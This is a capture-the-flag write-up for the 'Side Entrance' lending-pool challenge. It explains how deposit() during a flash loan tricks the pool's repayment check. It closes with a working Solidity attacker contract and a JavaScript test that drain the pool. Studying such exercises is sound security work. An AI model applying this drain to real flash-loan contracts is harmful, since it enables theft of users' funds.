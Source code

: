 # Side-Entrance

## Introduction
The goal of this box is to siphon 1000ETHs in an existing lending pool.

## Code Breakdown
Similiar to Truster box, it only has 1 smart contract ***SideEntranceLenderPool.sol***.
Let's start by looking at the variables.
```
using Address for address payable;
mapping (address => uint256) private balances;
```
The address variable uses openzeppelin library to offer more functions.
Reference: <https://docs.openzeppelin.com/contracts/3.x/api/utils#Address>

Whereas, a simple hashmap is made for ***balances*** where each address contains *x* amount of tokens in integer format.
Reference: <https://medium.com/upstate-interactive/mappings-in-solidity-explained-in-under-two-minutes-ecba88aff96e>

The first function is an interface. It is empty and it contains an ***execute()*** function.
```
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}
```

The next function is ***desposit***.
It is simple where it stores the value directly into the hashmap.
```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Next, a ***withdraw()*** function is created for users to withdraw their tokens out to their wallet. Even though it does not have any reentrancy guard, it follows the best practice outlined by Solidity documentation - [Checks-Effect-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.16/security-considerations.html#use-the-checks-effects-interactions-pattern).

```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Lastly, ***flashLoan(uin256 amount)*** function is created. 
As usual, it checks if the pool have sufficient ETH for borrowing.
```
uint256 balanceBefore = address(this).balance;
require(balanceBefore >= amount, "Not enough ETH in balance");
```

Next, it executes an interface function .
```
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

Lastly, it checks if the loan is returned to the lending pool.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

## Hints
First and foremost, there are two pool of funds - lending pool and individual balance pool. Both are identified based on their address. Here's the problem, the lending pool and individual balance pool have overlaps. 

Consider this scenario:
A lending pool has an address.
Since it's an address, it have an individual lending balance pool too.
Let's assign 10 ETH to the lending pool. Notice that the individual Balance pool is 0.

| Lending Pool (address(this).balance) | Individual Balance Pool (balances(address(this))|
|--------|-------|
| 10 ETH | 0 ETH |


This essentially means ```address(this).balance != balances(address(this))```.
Here's the loophole, if we transfer 10 ETH to the individual balance pool, the lending pool will still reflect 10 ETH due to the call ```address(this).balance```. 

| Lending Pool (address(this).balance) | Individual Balance Pool (balances(address(this))|
|--------|--------|
| 10 ETH | 10 ETH |

Understanding this concept, we can bypass the final check in the ***flashLoan*** function. 
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

We can use the function ***deposit()*** to transfer ETH from the lending pool to the individual balance pool.
Once the ETH is in the individual balance pool, we can use ***withdraw()*** to extract the token into address wallet. Since the smart contract is using ***Address.sol*** which does not require sender to have any approval, we can send the tokens from the individual balance pool to the attacker

## Solutions
A new smart contract is created for this solution.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";
import "../side-entrance/SideEntranceLenderPool.sol";

/**
 * @title SideEntranceAttacker
 * @author BingleBangle-BH's attacker contract
 */

 contract SideEntranceAttacker{
    using Address for address payable;
    SideEntranceLenderPool public immutable pool;

    constructor (SideEntranceLenderPool _pool){
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() public payable{
        pool.deposit{value: msg.value}();
    }

    function stealFunds() external{
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        address _owner = msg.sender;
        payable(_owner).sendValue(address(this).balance);
    }

    receive () external payable {}
 }
```

Here's the javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const SideEntranceAttack = await ethers.getContractFactory('SideEntranceAttacker', attacker);
    this.attackpool = await SideEntranceAttack.deploy(this.pool.address);
    await this.attackpool.stealFunds();
});
```
